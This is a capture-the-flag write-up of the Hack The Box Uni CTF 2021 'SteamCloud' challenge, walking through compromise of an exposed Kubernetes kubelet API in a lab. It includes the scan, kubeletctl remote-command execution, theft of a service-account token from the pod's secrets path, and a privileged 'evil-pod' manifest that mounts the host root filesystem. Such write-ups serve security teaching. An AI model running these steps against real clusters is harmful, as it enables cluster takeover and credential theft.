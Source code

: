 # Uni CTF 2021 Quals

## SteamCloud Cloud category challenge write-up :

![Challenge Description](images/Screen_Shot_2021-11-22_at_1.28.11_PM.png)

Last weekend me and my team #Heaven's_Birds participated in Uni CTF 2021 Quals organized by @ HacktheBox .

From the description we knew we were dealing with a k8s cluster. First we attempted to scan the host address we got after starting the machine ( which was different than the node's address running the cluster).

![Machine Data](images/Screen_Shot_2021-11-23_at_12.12.08_PM.png)

Basically we expected some K8s ports to be opened( See: [https://kubernetes.io/docs/reference/ports-and-protocols/](https://kubernetes.io/docs/reference/ports-and-protocols/) ), after running `nmap -sC -p-` on host and as expected we found the **Kubelet API** port opened **10250.

We tried then to list existing pods by sending a get request to `[http://10.129.96.107:10250/pods](http://10.129.96.107:10250/pods)` , the response returned pods from `kube-system` namespace and one pod from `default` one. It was an nginx pod, and it also listed an interesting address `10.129.96.98` which was the address of the node running the cluster ( the cluster was deployed on a single machine using minikube so the master and worker node are the same machine).

After googling a lil bit we found this interesting tools to communicate with kubelet API **`Kubeletctl`

After playing around lil bit with the tool, we run a scan for rce by issuing `kubeletctl scan rce` command. and the result was that nginx pod (and also kube-proxy) were vulnerable to remote code execution. Then we head to `/run/secrets/kubernetes.io/serviceaccount/` to grab the credentials for the default service account that we are going to use later when interacting with `***kube-apiserver.`*** 

A quick scan on the host address found before lists our famous `8443` kube-apiserver port. We can now use kubectl command and the token we grabbed before to interact with kube-apiserver.  

We also played with the command a lil bit trying to list pods and other resources , but we could only list cluster nodes and pods using:

**`kubectl  --insecure-skip-tls-verify=true --server="[https://$](https://%24/){IP_ADDRESS}:8443" \
--token="${TOKEN}" \
get nodes,pods --namespace=default`.

We tried then to deploy a pod if we have permission to that, and it was successfully deployed , but we had one issue the pod kept showing `ImagePullBackOff`, we knew then the image is not going to be pulled so we decide to use an already pulled image from the nginx pod configuration, and our evil pod was like the following: 

```yaml
apiVersion: v1
kind: Pod
metadata:
  annotations:
  labels:
  name: evil-pod
  namespace: default
spec:
  containers:
  - image: nginx:1.14.2
    imagePullPolicy: Never
    name: evil-container
    volumeMounts:
    - mountPath: /host
      name: node-mount
  volumes:
  - name: node-mount
    hostPath:
      path: /
```

Our pod was successfully deployed and running, then we had back the our `kubeletclt` command to execute some commands on our pod, of course we tried to execute a shell on the pod but no luck:

**`kubectl  --insecure-skip-tls-verify=true --server="[https://$](https://%24/){IP_ADDRESS}:8443" \
--token="${TOKEN}" \
exec -it evil-pod --namespace=default -- /bin/sh` .**

The `kubeletctl -s 10.129.96.98 exec "ls -la /host" -p evil-pod -c evil-container`  command is to check that our hostPath was successfully mount on the node, and is was.

Then `kubeletctl -s 10.129.96.98 exec "ls -la /host/root/flag.txt" -p evil-pod -c evil-container` to cat the flag.

**HTB{d0n7_3Xpo53_Ku83L37}.**
